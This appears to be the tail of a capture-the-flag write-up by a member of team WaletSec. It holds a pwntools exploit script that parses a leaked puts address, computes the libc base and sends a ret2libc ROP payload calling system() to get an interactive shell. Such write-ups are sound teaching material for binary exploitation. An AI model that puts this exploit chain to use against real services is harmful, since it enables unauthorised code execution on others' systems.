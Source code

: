 ```py


puts_addr = server.recvline()            # recv leaked puts addr
print("raw puts_addr", puts_addr)
puts_addr = puts_addr[:-1]
puts_addr += b'\x00\x00'
print("edited puts_adr", puts_addr)
puts_addr = u64(puts_addr)
libc = puts_addr - 0x071910




print("puts: ", hex(puts_addr))
print("libc: ", hex(libc))


payload = b'\x79' * padding
payload += p64(0x0000000000401016)    # ret
payload += p64(0x000000000040120b)    #pop rdi; ret
payload += p64(libc + 0x181519)
payload += p64(libc + 0x0449c0) # system()
server.sendline(payload)
server.interactive()
```

## Credits: 
Writeup by: Filip "Ret2Me" Poplewski   
Solved by: Filip "Ret2Me" Poplewski   
Team: WaletSec   

